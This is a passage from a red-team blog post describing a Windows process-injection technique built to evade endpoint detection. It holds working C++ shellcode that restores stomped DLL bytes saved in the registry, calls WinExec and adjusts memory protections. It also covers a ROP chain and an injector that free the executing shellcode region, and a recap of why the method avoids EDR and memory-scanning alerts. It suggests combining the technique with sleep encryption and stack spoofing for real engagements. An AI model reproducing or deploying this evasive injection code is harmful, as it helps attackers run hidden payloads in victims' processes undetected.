            remainingBytes = remainingBytes - copyingNow;
            if (NULL != tmpBuf) {
                freeFunc(tmpBuf);
                tmpBuf = NULL;
            }
#ifdef _DEBUG
            printfFunc("Remaining bytes: %u\n", remainingBytes);
#endif
        }
    }

#ifdef _DEBUG
    if (NULL == cbBuf || counter != shellcodeSize) {
        printfFunc("Error fetching saved bytes\n");
        return EXIT_FAILURE;
    }
#endif
#else

    // If we didin't use the registry, we used a memory region
    // So we just need to recover the address
    ULONG64 cbBuf = 0;
    DWORD dwSize = sizeof(cbBuf);

    value = (LPCTSTR)savedDllAddress;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &cbBuf, &dwSize) == ERROR_SUCCESS) {
        if (0 == startAddress) {
            return EXIT_FAILURE;
        }
    }

#endif

#ifdef RESUME_THREAD
    DWORD threadId = 0;
    DWORD tidSize = sizeof(threadId);

    value = (LPCTSTR)tiValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &threadId, &tidSize) == ERROR_SUCCESS) {
        if (0 == threadId) {
#ifdef _DEBUG
            printfFunc("Error fetching Thread ID\n");
#endif
            return EXIT_FAILURE;
        }
    }


#ifdef _DEBUG
    printfFunc("Targeting Thread ID: %i\n", threadId);
#endif

    HANDLE hThread = OpenThreadFunc(THREAD_ALL_ACCESS, FALSE, threadId);
    if (hThread == NULL) {
#ifdef _DEBUG
        printfFunc("OpenThread Failed.\n");
#endif
        return EXIT_FAILURE;
    }

#endif
    SleepFunc(SHORT_SLEEP);

    WinExecFunc((LPCSTR)WinExecCommand, 0);

#ifdef DEBUG_SLEEP
    // Sleep to inspect execution
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

#ifndef NO_LIB_RELOAD
    FreeLibraryFunc((HMODULE)GetModule(RPCRT4DLL_HASH));
    LoadLibraryFunc((LPCWSTR)rpcrt4dllName);
#endif

    DWORD oldProtect;

#ifdef _DEBUG
    printfFunc("StartAddress: 0x%llx\n", startAddress);
    printfFunc("Shellcode Size: %u\n", shellcodeSize);
#endif

    // Making the memory region RW
    VirtualProtectFunc((LPVOID)startAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &oldProtect);
#ifdef _DEBUG
    printfFunc("Memory is now RW\n");
#endif

#ifdef DEBUG_SLEEP
    // Sleep to inspect execution
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

    // We restore the memory content of the DLL
#ifdef WPM
    SIZE_T numberOfBytesWritten;
    BOOL success = WriteProcessMemoryFunc((HANDLE)-1, (LPVOID)startAddress, (LPCVOID)cbBuf, (SIZE_T)shellcodeSize, &numberOfBytesWritten);
#else

    memcpyFunc((LPVOID)startAddress, (LPVOID)cbBuf, shellcodeSize);
#endif

#ifdef _DEBUG
    printfFunc("Buffer copied\n");
#endif

#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

    // Making the memory region RX again
    VirtualProtectFunc((LPVOID)startAddress, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
#ifdef _DEBUG
    printfFunc("Memory is now RX\n");
#endif

#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(500);
#endif // !DEBUG_SLEEP

#if defined(_DEBUG) && defined(WPM)
    if (!success) {
        printfFunc("Error writing memory\n");
    }
    else {
        printfFunc("Successfully overwritten memory\n");
    }
#endif

    freeFunc(cbBuf);

    // Now we can release the mutex
    if (NULL != mutex) {
        // Mutex exists, so we exit
        CloseHandleFunc(mutex);
    }


    // We can finally delete the key
    RegCloseKeyFunc(hKey);
    RegDeleteKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey);

    // At this point, we can resume the thread which will deallocate this shellcode from memory    
    // And return
#ifdef RESUME_THREAD
    if (hThread != NULL) {
        ResumeThreadFunc(hThread);
    }
#endif
    return 0;
}
```

###### Shellcode 4 - Freeing the allocated buffer

As a final piece for our shellcode, we will need to free the RX memory section we allocated to store
the main logic code. The main problem of this task is that we need to free the memory we are currently
executing, which is, in layman terms, impossible using conventional ways.

To solve this problem, we will use a ROP chain. As we need to inject it as shellcode, though, we will
need to dynamically resolve the gadgets we need, and we will also need to "JIT compile" the shellcode.

To do that, we'll need a few things:

* a ROP chain "structure" 
* a general injector to build the ROP in memory
* a target DLL (or more than one) to hunt gadgets within

For the main ROP structure, we would simply need to set up a chain to put the relevant arguments in place
and then return to `VirtualFree`. Seeing the Microsoft documentation, the function prototype is:

```cpp
BOOL VirtualFree(
  [in] LPVOID lpAddress,
  [in] SIZE_T dwSize,
  [in] DWORD  dwFreeType
);
```

Meaning that we have to set the address in RCX, the size in RDX, and the free type in R8. 
We already have in memory the address of the section we need to free, the other two parameters are fixed
and needs to be 0 and 0x8000 (MEM_RELEASE), respectively.

So, the chain would be something like the following:

```
<<POP RCX; RET;> GADGET>
<<RX-SECTION-ADDRESS> REVERSED>
<<POP RDX; RET;> GADGET>
\x00\x00\x00\x00\x00\x00\x00\x00
<<POP R8; RET;> GADGET>
\x00\x00\x00\x00\x08\x00\x00\x00
<<VirtualFree> ADDRESS-OF>
```

> Note: the chain above is just one of several possible alternatives

Good, but as we know well, a ROP chain is just a data attack, we can't inject this as a shellcode. For this
reason, we need a general injector, which will push this chain onto the stack and return to make it execute.

The general idea is then to build yet another PIC shellcode which can load the above chain. If we think about
it, the above shellcode is just a sequence of 8 bytes chunks, so we can easily construct the injector using a 
sequence of MOV and PUSH instructions, like this:

```
mov r15, <CHUNK-N>
push r15
mov r15, <CHUNK-N-1>
push r15
...
mov r15, <CHUNK-1>
push r15
ret
```

> Note: We are reversing the order of chunks because the stack is a LIFO structure

The other question is, where do we place the above shellcode? We will have two main ways to do that:

* Allocate a new section
* Allocate in the existing RX section

Of course, allocating a new RW section, write the ROP injector, switch to RX ad execute would be easier,
but would require an additional allocation and de-allocation. We may be able, instead, to use the same RX memory
we're using for the main shellcode. If you are wondering how, consider that `VirtualAlloc`, by default, 
allocates memory in chunks that are multiple of 4KB. This implies that, even if we technically ask for
anything which is between 4097 and 8192 bytes, `VirtualAlloc` will allocate 8192 for us.

This means, tho, that we may have some space for our injector. How much? Well exactly this:
```
4096 * (int)(sizeof(shellcode)/4096) - sizeof(shellcode) 
```

You'd probably already noticed that we can also calculate it like that:

```
4096 - (sizeof(shellcode) % 4096)
```

If there is enough space, we can just use that. As a convention, however, we will use an address 
multiple of a page (absolutely not required). So, at any time, just knowing the start address of 
the main shellcode, we can calculate the ROP injector address with the following:

```
// nPages + 1 = Number of pages required to store the full shellcode
DWORD rxMemoryRegionSize = (nPages + 1) * PAGE_SIZE * 4;
DWORD ropInjectorOffset = (nPages + 1) * PAGE_SIZE * 2;

LPVOID ropInjectorAddress = (LPVOID)((UINT64)address + (UINT64)(ropInjectorOffset));
```

### Recap

The diagram below is presented as a recap of the overall implementation:



As it is easy to observe, this implementation much differs from a common process injection technique:

* No memory allocated remotely (all calls to `VirtualAlloc` are performed by the victim process)
* No thread created remotely (threads area all locally created via `CreateThread` API)
* Shellcode thread started from backed memory (within the hijacked module)
* Un-backed memory freed after usage
* DLL restored, so that an EDR can't alert on missing hooks and a hunter can't see any manipulation
  (even identifying the private bytes)

Of course, it creates other IOCs. Although some of them can be fixed by changing the implementation, 
some of them are intrinsic of the technique, such as: 

* modifying a DLL (makes private bytes > 0)
* access memory to save/share data across components
* may create sync issues in multi-threaded application

### Why save the DLL bytes instead of restoring from KnownDLL or disk? 

At this point, the reader might be wondering why we are restoring the DLL using the previously saved bytes,
when we could also restore it by re-mapping from disk or using the mapped DLL image in `\KnownDLLs`.

The reason behind this is that we can be dealing with a hooked DLL. If hooks are installed in this DLL,
restoring the image from disk or similar could cause the DLL to be unhooked (among other problem like 
dynamic relocations, etc.). This, in turn, could just make this technique to be categorised/detected 
as "unhooking".

### Demo

And below we can see how it is possible to execute our payload in a remote process, without actually 
using any method to execute code. It is also possible to see how Moneta cannot detect any private 
RX section, but can detect the modified DLL. Why? Is that a False Positive?

Well, this is NOT a false positive, as the reader may think, and not even an implementation error, 
it's a true positive. The reason  behind that is that even if we restored the original bytes, the 
DLL was still modified, and a part of its memory switched from shareable to private, which is what 
tools like Moneta are looking for.

If you want to more, check out the excellent blog post by F-Secure at [F-Secure Blog][11].

And now, a little demo:


## Considerations

So, as observed, we managed to create a process injection technique adopting a fairly different 
behaviour in comparison with other well-known implementations, simply by leveraging the natural 
way a Windows program works.

It should be noted, though, that we address just the "injection" part of the problem. In order to be effective in 
a real engagement, this technique should be improved and linked with other "powerful" techniques like 
Sleep Encryption, Stack Spoofing, and others, to maintain our shellcode hidden in memory.

The best implementation of these functionalities combined so far is [YouMayPasser][10] by Arash Parsa (aka [Waldo-IRC][9])
More information in [his blog post][8].

## Conclusion

As many of the posts I've been writing so far, this is another example of how it is possible to reuse
old-school techniques in different ways, just by looking at the same problem from a slightly different 
perspective.

[Back to Red Teaming](../../)

[Back to Home](https://klezvirus.github.io/)

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/